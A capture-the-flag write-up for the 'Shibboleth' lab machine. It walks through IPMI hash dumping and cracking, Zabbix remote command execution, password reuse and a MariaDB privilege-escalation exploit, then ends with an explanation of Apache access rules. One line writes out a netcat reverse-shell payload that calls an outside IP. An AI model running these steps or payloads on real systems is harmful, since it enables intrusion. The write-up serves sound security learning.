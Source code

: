 ##### Box Name: Shibboleth
##### Difficulty: Medium
---

## Enumeration

### Port Scan
##### TCP
```js
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41
|_http-title: Did not follow redirect to http://shibboleth.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: shibboleth.htb
```

Add `shibboleth.htb` to `/etc/hosts` file.

##### UDP
```js
PORT      STATE         SERVICE     VERSION
623/udp   open          asf-rmcp
```

Other ports found were in `open|filtered` STATE and I'm not including them here in the results.

### Web Server enumeration
#### vHost scanning
```bash
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -o ffuf-vhosts.out -u http://shibboleth.htb -H "Host: FUZZ.$(site="http://shibboleth.htb"; echo ${site#*//} )" -fw 18
```

Found vHosts:
- monitor
- monitoring
- zabbix

All the three vhosts take us to the same page.
It is a monitoring tool called **Zabbix**

There is an authentication bypass for the v5.0 of Zabbix but its not exploitable in the Zappy application on the server. We are at a dead end.

### UDP Port 623
Doing a quick google search about UDP port 623, I came across IPMI (Intelligent Platform Management Interface) protocol and about Baseboard Management Controllers (BMCs).
Check these resources for further understanding:
- https://www.rapid7.com/blog/post/2013/07/02/a-penetration-testers-guide-to-ipmi/
- https://book.hacktricks.xyz/pentesting/623-udp-ipmi

I fired up metasploit to use its ipmi modules

![](images/msf-ipmi-scan.png)

We have found an admin hash
```
Administrator:836b54da82180000cffc521f48855e4dc4c55663cafc675e4719b43992d8faadc55b2cb9fd8c2d5fa123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:3c62b4109945ae35ba1998f6348ac490bbad6a65
```

Save the output in the hashcat format (by setting the correct options and rerunning the exploit) and use hashcat to crack the hash
```shell
.\hashcat.exe -D2 -m 7300 .\passwords\shibboleth-ipmi.txt .\rockyou.txt
```

Cracked password: **`ilovepumkinpie1`**

Use the password to login as `Administrator` on the Zabbix portal.

### Exploitation

I came across different articles/blogs discussing the exploitation via the Zabbix the API via `/api_jsonrpc.php` but all the requests to that endpoint returned 403 Forbidden status code.

![](images/zabbix-api-jsonrpc-403.png)

I moved over to check for other ways to somehow get a shell on the system...
In the Zabbix console, go to Configuration => Hosts => shibboleth.htb
There we have many different pages on of which is  `Items`
It contains different commands along with their respective keys. Let's create an item to see all the available items:

![](images/zabbix-system-run.png)

There is a specific key called `system.run[command,<mode>]` that looks interesting. It allows us to run commands on the host. We can have RCE on the system.
We just have to set the Key as the following and test:
```sh
system.run[rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.34 1337 >/tmp/f, nowait]
```

The second parameter `nowait` will be needed (default is set to `wait`). Without this parameter, the shell will drop immediately.

![](images/zabbix-revshell.png)

Now that we have a shell on the system, as `zabbix` user, let's enumerate the system.
There is another user account `ipmi-svc`. We need to privesc to that user to get the user flag.
I searched for various things such as config files, processes running on system as other user, etc, but couldn't find anything useful and was on a dead end.
Then I came across the config file for ipmi where the credentials of the users are stored. 

![](images/ipmi-conf.png)

Although its the same password I have found earlier, I did not try reusing this password on `ipmi-svc` user. Let's try that now :)

### Privesc to user
The password works on the user and we get a shell as `ipmi-svc`
I began enumeration on the system once again as this user and found an interesting file that is owned by the group `ipmi-svc`. It is the config file for zabbix server.

![](images/zabbix-server-conf.png)

It contains the database credentials.

### Privesc to root
I checked the database and table for any password hashes and found a few blowfish hashes.

![](images/db-hashes.png)

But I couldn't crack any hash :(
Time to move on. I went back to enumerating the system once again but couldn't find anything of use. I decided to jump back in to the SQL login and one thing came to my mind was to check the version of the database to see if it's vulnerable.

![](images/mariadb-version.png)

The MariaDB version `10.3.25-MariaDB-0ubuntu0.20.04.1`

I found an exploit over here https://packetstormsecurity.com/files/162177/MariaDB-10.2-Command-Execution.html

Exploit steps shown below:

![](images/msfvenom-payload-create.png)

Transfer the malicious `test.so` file to the shibboleth machine and login via lysql

![](images/root-revshell.png)

### Beyond root
I'd like to end this with this short beyond root section which I got inspiration from the Beyond Root videos by [@0xdf_](https://twitter.com/0xdf_), I decided to do a little beyond root part for this box as well.
We will revisit the part where previously we saw that the Zabbix API endpoint at `/api_jsonrpc.php` was responding with a 403 Forbidden status code. This prevented us to use its API endpoint.
Let's check the the apache vhost config file located at `/etc/apache2/sites-enabled/000-default.conf`. 

![](images/beyond-root-zabbix-api.png)

We see that for the Zabbix vHost, these endpoints are set to deny connections from all hosts.

From the Apache documentation,

>The `<Location>` directive limits the scope of the enclosed directives by URL

In the config file in the box, it is therefore used to explicitly specify the configurations only for the set endpoints.
Within the Location directive, we have three more directives:
- Order
- Deny
- Allow

These are used to control access to particular parts of the server. The access is controlled based on the characteristics of the client such as hostname and IP address. 
The Allow and Deny directives specifies which clients can or can't access the server. The Order directive sets the default access state and configures how the Allow and Deny directives interact with each other.

One thing to remember is that the order in which the lines appear in the configuration file doesn't matter. All the Allow and Deny lines are processed as seperate groups. 
However, the ordering in the Order directive itself is of importance.
`Order deny,allow` is different from `Order allow,deny`.

In the first one, all the Deny directives are processed first. If the requesting host matches, it is denied unless it also matches the Allow directive. Any other request that do not match any Allow or Deny directive are permitted.

On the latter one, all the Allow directives are processed first. To be allowed, the host of the requesting client must match at least one of them. Else the request will be rejected. Then all the Deny directives are processed. If there is any match, that request is also rejected. Any other request that do not match any Allow or Deny directive are denied by default.

So according to the configuration in the Shibboleth box, 
```
Order deny,allow
Deny from all
Allow from 127.0.0.1
```
The Order is deny,allow. So the Deny directives will be processed first. Here, **all** requests will be denied unless it is from 127.0.0.1, for which the request will be allowed.

Hope you learned something new in this beyond root section. 
Now its time to bid farewell. Until next time.
